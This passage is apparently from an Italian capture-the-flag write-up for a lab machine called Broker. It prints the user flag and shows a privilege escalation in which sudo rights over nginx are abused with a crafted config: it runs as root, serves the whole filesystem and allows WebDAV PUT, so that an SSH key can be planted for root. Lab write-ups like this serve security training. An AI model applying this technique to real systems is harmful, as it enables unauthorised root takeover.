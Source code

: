 e dopo aver effettuato l'upgrade della shell ci prediamo la nostra user_flag.

```bash
activemq@broker:~$ cat user.txt
44a2cc459f6064de0dbccc00bc0d92f4
```

# PRIVESC

Una della prime cose da fare e vedere se possiamo eseguire qualcosa come root e per farlo usiamo il comando `sudo -l`

```bash
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Utilizzeremo ngx_http_dav_module per scrivere la nostra chiave SSH pubblica nel file authentic_keys dell'utente root. Per fare ciò, iniziamo creando il file di configurazione NGINX dannoso, che appare come segue:

```bash
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {

        worker_connections 768;

}  
http {

    server {
        listen 1337;

        root /;
        autoindex on;

        dav_methods PUT;
    }

}
```

Le parti fondamentali sono le seguenti:
- user root: i processi di lavoro verranno eseguiti da root, ovvero quando eventualmente caricheremo un file, anch'esso sarà di proprietà di root .
- root /: la radice del documento sarà la directory più in alto del filesystem.
- dav_methods PUT: abilitiamo l'estensione HTTP WebDAV con il metodo PUT, che consente ai client di caricare file.
